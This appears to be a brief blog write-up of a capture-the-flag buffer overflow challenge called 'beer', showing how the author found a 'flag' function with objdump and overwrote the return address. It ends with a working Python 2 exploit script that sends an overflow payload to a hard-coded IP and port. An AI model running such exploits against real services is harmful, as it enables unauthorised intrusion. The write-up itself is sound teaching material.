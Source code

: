 This challenge was simple and fun. As it involved overflowing beer ;)
![_config.yml]({{ site.baseurl }}/images/bofgit2.png)

as you can guess by the looks of it, it's a buffer overflow challenge and all we have to do is overflow the stack and get our stack pointer to point to a location in a memory which we can take advantage of.
Let's quckly check if is vulnerable to the attack.
![_config.yml]({{ site.baseurl }}/images/bofgit1.png)

bingo!
We just sent random characters and we go a segmentation fault error!
So all now we have to do are these things:
1. Reverse the ELF and find something to jump upon.
2. Find it's address on stack.
3. Make a python script to pwn the challenge.
There are many ways to do this. We can use Ghidra to find what ELF do and what their funcions do. I will just list the functions using
```
objdump -d beer
```
In the output the function *flag* looks interesting.
![_config.yml]({{ site.baseurl }}/images/gitbof3.png)

Jot down the address of the function and now we have to make simple python script to launch the attack.
```python
import socket
addr="172.105.53.6"
port=32771
buf="A"*72 +"\x10\x12\x40"+"\x00"*5
try:
    s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    s.connect(("172.105.53.6",32771))
    s.recv(4000)
    print s.recv(1024)
    s.send(buf+"\r\n")
    print s.recv(1024)
    print s.recv(1024)

    
except:
    print "rerr"
```



